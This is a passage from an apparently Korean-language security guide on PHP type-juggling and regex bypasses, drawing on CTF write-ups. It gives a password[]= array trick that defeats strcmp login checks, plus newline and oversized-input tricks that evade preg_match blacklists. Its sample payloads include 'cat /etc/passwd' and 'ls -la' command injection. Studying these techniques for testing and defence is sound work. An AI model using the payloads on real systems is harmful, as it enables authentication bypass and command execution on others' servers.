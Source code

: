 이 함수가 **모든 인증 확인**(비밀번호 확인과 같은)에 사용되면, 사용자가 비교의 한 쪽을 제어할 경우, 비밀번호의 값으로 문자열 대신 빈 배열을 보낼 수 있습니다 (`https://example.com/login.php/?username=admin&password[]=`) 그리고 이 확인을 우회할 수 있습니다:
```php
if (!strcmp("real_pwd","real_pwd")) { echo "Real Password"; } else { echo "No Real Password"; }
// Real Password
if (!strcmp(array(),"real_pwd")) { echo "Real Password"; } else { echo "No Real Password"; }
// Real Password
```
`strcasecmp()`와 동일한 오류가 발생합니다.

### 엄격한 타입 조작

`===`가 **사용되고** 있더라도 **비교가 취약하게** 만드는 오류가 있을 수 있습니다. 예를 들어, 비교가 **비교하기 전에 데이터를 다른 타입의 객체로 변환하고 있는 경우**:
```php
(int) "1abc" === (int) "1xyz" //This will be true
```
### preg\_match(/^.\*/)

**`preg_match()`**는 **사용자 입력을 검증**하는 데 사용될 수 있습니다(사용자 입력에 **블랙리스트**의 **단어/정규 표현식**이 **존재하는지** 확인하고, 존재하지 않으면 코드는 계속 실행될 수 있습니다).

#### New line bypass

그러나 정규 표현식의 시작을 구분할 때 `preg_match()`는 **사용자 입력의 첫 번째 줄만 확인**합니다. 따라서 어떤 방법으로든 **여러 줄**로 입력을 **전송**할 수 있다면 이 검사를 우회할 수 있습니다. 예:
```php
$myinput="aaaaaaa
11111111"; //Notice the new line
echo preg_match("/1/",$myinput);
//1  --> In this scenario preg_match find the char "1"
echo preg_match("/1.*$/",$myinput);
//1  --> In this scenario preg_match find the char "1"
echo preg_match("/^.*1/",$myinput);
//0  --> In this scenario preg_match DOESN'T find the char "1"
echo preg_match("/^.*1.*$/",$myinput);
//0  --> In this scenario preg_match DOESN'T find the char "1"
```
이 검사를 우회하려면 **새 줄이 URL 인코딩된 값**(`%0A`)을 **전송하거나, JSON 데이터를 보낼 수 있다면 여러 줄로 전송**하세요:
```php
{
"cmd": "cat /etc/passwd"
}
```
여기에서 예제를 찾으세요: [https://ramadistra.dev/fbctf-2019-rceservice](https://ramadistra.dev/fbctf-2019-rceservice)

#### **길이 오류 우회**

(이 우회는 PHP 5.2.5에서 시도된 것으로 보이며, PHP 7.3.15에서는 작동하지 않았습니다)\
`preg_match()`에 유효한 매우 **큰 입력**을 보낼 수 있다면, **처리할 수 없게** 되어 **검사를 우회**할 수 있습니다. 예를 들어, JSON을 블랙리스트에 올리고 있다면 다음과 같이 보낼 수 있습니다:
```bash
payload = '{"cmd": "ls -la", "injected": "'+ "a"*1000001 + '"}'
```
From: [https://medium.com/bugbountywriteup/solving-each-and-every-fb-ctf-challenge-part-1-4bce03e2ecb0](https://medium.com/bugbountywriteup/solving-each-and-every-fb-ctf-challenge-part-1-4bce03e2ecb0)
